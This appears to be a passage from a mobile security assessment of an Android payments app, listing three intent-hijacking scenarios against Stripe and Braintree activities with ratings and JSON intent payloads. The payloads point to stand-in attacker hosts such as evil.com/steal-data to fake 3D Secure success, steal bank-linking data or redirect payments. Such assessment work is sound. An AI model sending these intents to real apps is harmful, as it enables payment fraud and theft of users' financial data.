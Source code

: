 #### Stripe 3D Secure Bypass
- **Description**: Malicious app hijacks Stripe browser proxy to bypass 3D Secure
- **Target Activity**: `com.stripe.android.payments.StripeBrowserProxyReturnActivity`
- **Impact**: 3D Secure authentication bypass leading to unauthorized payments
- **Likelihood**: MEDIUM
- **Severity**: HIGH

**Attack Payload**:
```json
{
  "action": "android.intent.action.VIEW",
  "data": "https://malicious-site.com/stripe-return?success=true&payment_intent=pi_fake",
  "extras": {
    "android.intent.extra.REFERRER": "https://hooks.stripe.com"
  }
}
```

#### Financial Account Linking Hijack
- **Description**: Malicious app hijacks financial connections flow to steal bank data
- **Target Activity**: `com.stripe.android.financialconnections.lite.FinancialConnectionsSheetLiteRedirectActivity`
- **Impact**: Bank account information theft and financial data compromise
- **Likelihood**: MEDIUM
- **Severity**: CRITICAL

**Attack Payload**:
```json
{
  "action": "android.intent.action.VIEW",
  "data": "stripe://financial-connections?return_url=https://evil.com/steal-data",
  "extras": {
    "com.stripe.android.financialconnections.EXTRA_ACCOUNT_ID": "fake_account"
  }
}
```

#### Deep-Link Payment Redirection
- **Description**: Malicious app uses Braintree deep-link to redirect payments
- **Target Activity**: `com.braintreepayments.api.BraintreeDeepLinkActivity`
- **Impact**: Payment redirection to malicious payment processors
- **Likelihood**: HIGH
- **Severity**: HIGH

**Attack Payload**:
```json
{
  "action": "android.intent.action.VIEW",
  "data": "mayndriveappddds://payment?redirect_to=https://malicious-payment.com",
  "extras": {
    "com.braintreepayments.api.EXTRA_PAYMENT_METHOD": "fake_method"
  }
}
```

